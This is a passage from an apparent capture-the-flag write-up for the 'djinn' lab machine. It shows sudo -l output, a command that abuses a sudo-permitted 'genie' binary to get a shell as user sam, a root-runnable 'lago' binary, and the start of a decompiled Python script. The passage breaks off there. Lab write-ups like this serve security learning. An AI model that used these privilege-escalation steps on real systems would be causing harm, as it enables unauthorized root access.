 User nitish may run the following commands on djinn:
    (sam) NOPASSWD: /usr/bin/genie
```
I tried some stuff with the binary and I can't do anything with that.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/9.png)

After sometime I checked if there is any ``man`` available for ``genie``. -h flag actually just for quick usage of the command.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/10.png)

```
nitish@djinn:~$ sudo -u sam /usr/bin/genie -cmd id
my man!!
$ whoami
sam
```

## Privilege Escalation to Root:

```
$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago

```
Another binary ``lago`` which can be executed as ``root`` without the password

It Looks like some sort of game.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/12.png)

Later I checked ``sam`` directory and found ``.pyc`` file. I downloaded to my machine using python server.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/djinn1/11.png)
>pyc contain the compiled bytecode of Python source files.

There is a tool which helps to decomplie the python script for us.
>https://github.com/Mysterie/uncompyle2

```
# 2020.03.24 13:56:25 IST
# Embedded file name: /home/mzfr/scripts/exp.py
from getpass import getuser
from os import system
from random import randint
